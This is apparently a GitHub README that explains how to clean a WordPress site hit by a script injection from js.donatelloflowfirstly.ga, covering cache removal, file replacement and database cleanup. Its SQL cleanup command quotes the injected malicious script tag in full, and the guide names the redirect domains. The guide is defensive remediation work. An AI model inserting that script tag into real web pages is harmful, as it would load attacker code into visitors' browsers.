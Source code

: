 # # How to Remove "js.donatelloflowfirstly.ga" from Wordpress

[![Join the chat at https://gitter.im/Waikey-Web-Hosting/waikey](https://badges.gitter.im/Waikey-Web-Hosting/waikey.svg)](https://gitter.im/Waikey-Web-Hosting/waikey?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)

New virus from the domain " js.donatelloflowfirstly.ga " is infecting many WordPress sites these days by injecting a line of JS code into the wordpress themes/plugins files and all posts and pages via sql command. The virus will redirect the sites to malicious domains like  blackwaterforllows.ga ,  donatelloflowfirstly.ga , and  blackwaterforllows.ga .
**How it remove it**
For now, there is no clues how this happened and the only way is to clean it manually! Here is my steps:

**1: First Step**
Very important. De-active CDN function first, and you need to turn offer Memcached / Redis if you are running these with VPS hosting.

**2: Basic Step**
1): Check your root  /public_html  folder via Cpanel, or you can manager files with other panel if your sites running on VPS. Find and delete the new generated malware file. Most of time the file named with  _a  or  _t , there is no suffix.

2): Delete all Cached Files. Many wordpress sites usie cache plugins, just delete them since many cached files been injected too. Normally the cached files are located in folder  wp-content .

**3: Clean DataBase**
It's easy to manager your database with Phpmyadmin, or you can run the command via SSH if running your site wit LNMP on VPS.
Login Phpmyadmin via Cpanel or other panels, click on the site database, and run the following SQL command:

```
UPDATE wp_posts SET post_content = (REPLACE (post_content, “<script src=’https://js.donatelloflowfirstly.ga/stat.js?n=ns1' type=’text/javascript’></script>”, ‘’));
```
**4: Clean Core Files**
There are many ways to clean your wordpress files. Here is my way:

1): Zip all the site files and download the zip file to desktop.

2): Unzip the files to the folder, " waikey " as an example.

3): Located to the folder  wp-content / plugins , and delete all plugins. Then replace with the clean plugins into the folder. Same with themes files, delete all themes and replace with clean themes.

5): Now run the VSCode editor, you can download it at: https://code.visualstudio.com/ and install it.

6): Open the  waikey (example) folder via VSCode, then click  Edit > Search in the files  to search the keywords:  donatelloflowfirstly . There should be only a few files been found since we have deleted all Cached Files and replaced all Themes and Plugins. Edit those files if you know how to or just replace them with clean files.

7): For now, all files are clean. Delete your whole site, and upload this clean backup to the site folder. Your site should be OK now.

There is another way to clean the file if you can login to site admin panel. Install  Wordfence  plugin and scan the whole stie. The Wordfence will find out those injected files, just edit them or replace them with clean files.

For more detials , please view: https://www.waikey.com/vps-tutorials/remove-js-donatelloflowfirstly-ga/

Remeber to backup your site and database everyday!

